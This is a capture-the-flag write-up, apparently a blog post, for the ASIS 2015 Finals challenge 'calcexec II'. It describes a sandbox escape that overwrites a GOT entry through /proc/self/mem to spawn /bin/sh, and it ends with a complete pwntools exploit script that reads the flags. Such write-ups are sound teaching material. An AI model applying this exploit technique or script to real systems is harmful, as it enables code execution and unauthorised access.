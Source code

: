 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn250) calcexec II"
modified: 2015-10-14
tags: asis asis2015finals .net mono pwn
---
```


The second part of the challenge uses an already known technique to break out from "sandboxes".

Namely: overwriting the contents of the /proc/self/mem. This is possible because the calculator contains two methods: READ and WRITE with which we can read and write arbitrary files. (Note: I tried to read "flag2", but unfortunately it did not exist... :))

So I leaked the memory mappings with reading the /proc/self/maps file. Then I overwrote the "open" call's GOT entry to system. And simply called the READ call again with /bin/sh which instead of opening the file, opened a shell for me (btw I tried to call "sh" first, but it turned out it calls a stat function first, and "sh" did not work, but "/bin/sh" did the trick).

Also there were some character encoding problem (it probably tried to interpret the binary input as UTF8 characters), so I only overwrote 3 bytes instead of the full address and the exploit is not reliable: only works if ASLR gives an address with characters which are lower than 0x80.

After calling an "ls" it turned out the flag was in the flag2-03dae19b720939043d87fbf67342c2e8.txt file.

{% highlight text %}
And the flag was: ASIS{9009eeab9869a8098acd7bb19f079230}
{% endhighlight %}

### Exploit code

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re
from time import sleep

for i in xrange(10):
    print "Try #%d" % (i + 1)
    p = remote('185.82.202.146', 1337)
    #p = process('./start.sh', shell=True)
    p.recvline()
    p.recvline()

    p.send('authenticate\n')
    p.send(open('fakeCa.crt').read()+'\n')

    p.send('authenticate\n')
    p.send(open('fakeUserCert.crt').read()+'\n')

    p.send('flag\n')
    p.recvuntil('> ')
    print '[!] FLAG 1 = %s' % p.recvline().strip()

    p.send('read("/proc/self/maps",0,20000)\n')
    p.recvuntil('> ')
    maps = p.recvuntil('\x00')
    p.recvuntil('\n\n')
    #print "maps =", maps

    libcBase = int(re.search('([a-z0-9]+).*?libc-2.19.so', maps).group(1), 16)
    libThreadBase = int(re.search('([a-z0-9]+).*?libpthread-2.19.so', maps).group(1), 16)
    print "libThread base = 0x%016x" % libThreadBase

    systemLocal = 0x7ffff74ba230
    libThreadBaseLocal = 0x7ffff74aa000
    openGotAddr = 0x9776C8

    system = libThreadBase - libThreadBaseLocal + systemLocal
    print "system = 0x%016x" % system

    systemChars = p64(system)[0:3]
    if ord(systemChars[0]) >= 128 or ord(systemChars[1]) >= 128 or ord(systemChars[2]) >= 128:
        print "Exploit won't work, restarting..."
        p.close()
        continue
        
    p.send('write("/proc/self/mem",'+str(openGotAddr)+',"'+systemChars+'")\nread("/bin/sh",0,1)\n')
    p.recvline()
    p.recvline()

    time.sleep(0.4)
    p.send('ls && echo LSEND\n')
    print "ls result = %s" % p.recvuntil('LSEND\n').replace('LSEND','').replace('\n', ' ').strip()

    p.send('cat flag2-03dae19b720939043d87fbf67342c2e8.txt\n')
    print "[!] FLAG 2 = %s" % p.recvline().strip()

    p.interactive()
    break
{% endhighlight %}
